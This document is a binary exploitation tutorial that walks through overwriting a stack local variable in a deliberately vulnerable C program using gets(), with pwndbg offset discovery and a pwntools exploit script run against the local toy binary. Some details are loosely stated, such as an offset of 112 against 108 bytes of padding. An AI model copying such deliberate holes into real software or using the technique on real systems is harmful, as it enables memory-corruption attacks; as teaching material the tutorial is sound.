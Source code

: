 ```yaml
---
description: 10/11/2023
cover: https://lparchive.org/ROM-Corruption-Megathread/Images/1-12z1X7C.gif
coverY: 0
---
```


# 🖊️ Memory Corruption: Overwriting Local Variables

## Introduction

Did you know that you can overwrite local variables on the stack and change the program's logic?

Here, we'll be going over that!

## Target

`vuln.c`**:**

```c
// A binary exploitation demonstration focusing on overwriting local variables on the stack.

#include <stdio.h>
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char *argv[])
{
    volatile int hackme;
    char buffer[100];

    puts("Can you overwrite the variable on the stack?\n");

    hackme = 0;
    gets(buffer);

    // if(strcmp(buffer, "0xDEADBEEF") == 0)
    if(hackme == 0xDEADBEEF)
    {
        printf("Access Granted, you changed the variable!\n");
        hackme = 0;
    }

    else
    {
        printf("Try harder!\n");
    }

    return 0;
}
```

### The Vulnerability

As you can see, we have a <mark style="color:yellow;">vulnerable</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`gets()`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">function</mark> that will write our input into the buffer variable that is allocated for 100-bytes of data.

The reason `gets()` is vulnerable is because <mark style="color:yellow;">it performs zero checks for writing past the data length of 100-bytes</mark>.&#x20;

Ultimately allowing us to overflow the buffer, overwrite memory, and control the flow of execution.

### Compile

```
gcc vuln.c -o vuln -Q -g -fno-stack-protector -z execstack -no-pie
```

## Enumeration

#### `file`:

{% code overflow="wrap" %}
```
vuln: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=acd5e5a4a583c059d16b17798e2c5da129f27edb, for GNU/Linux 3.2.0, with debug_info, not stripped
```
{% endcode %}

#### `checksec`:

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
```

## Dynamic Analysis w/ `pwndbg`

#### Load binary into `pwndbg`:

```
gdb vuln -q
```

* `-q` will load the symbols into the debugger and grant us access to the source code within the debugging window

#### Place a breakpoint on `main()` and run the binary:

```
b main
r
```

<figure><img src="../.gitbook/assets/image (169).png" alt=""><figcaption><p>Analyzing the binary in <code>pwndbg</code></p></figcaption></figure>

#### Generate a cyclic pattern of 200-bytes (because of our 100-byte buffer):

```
cyclic 200
```

* Copy the entire string

#### Run the program and send the pattern in as input:

```
c

Continuing.
Can you overwrite the variable on the stack?

aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa
Try harder!
Program received signal SIGSEGV, Segmentation fault.
```

The program will seg fault.

<figure><img src="../.gitbook/assets/image (172).png" alt=""><figcaption><p>Seeing value of <code>RBP</code></p></figcaption></figure>

#### Obtain the offset of the overwritten `RBP` value:

```
cyclic -l oaaaaaaa
Finding cyclic pattern of 8 bytes: b'oaaaaaaa' (hex: 0x6f61616161616161)
Found at offset 112
```

<mark style="color:yellow;">Perfect, we now have our padding</mark>.

We want to actually utilize 108-bytes of junk data (`A`'s) here and then make the next 8-bytes `'0xDEADBEEF'` in little endian, `'\xEF\xBE\xAD\xDE'`.

#### Payload Structure:

```
[108-bytes of A's (Junk)] + [8-bytes for overwriting the variable: \xEF\xBE\xAD\xDE]
```

## Exploit Development

```python
from pwn import *

exe = ELF('./vuln')

# Uncomment one or the other for proper process startup -- local or debugger?
def conn():
    if args.LOCAL:  
        r = process([exe.path])                   # Just start the local process
        # r = gdb.debug([exe.path])                   # Open with pwndbg debugger
    else:
        r = remote("127.0.0.1", 9999)

    return r

def main():

    r = conn()

    padding = b'A'*108

    deadbeef = b'\xEF\xBE\xAD\xDE'

    payload = b''.join([
        padding,
        deadbeef
    ])

    print("payload:", payload)
    write("payload", payload)

    r.sendline(payload)

    r.interactive()

if __name__ == "__main__":
    main()
```

#### Automated Exploitation

```
python3 exploit.py LOCAL
```

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>Obtaining the winning condition</p></figcaption></figure>

#### Manual Exploitation

#### With our payload being saved to a file named `payload`, we can manually pwn this binary:

```python
./vuln < payload
Can you overwrite the variable on the stack?

Access Granted, you changed the variable!
```
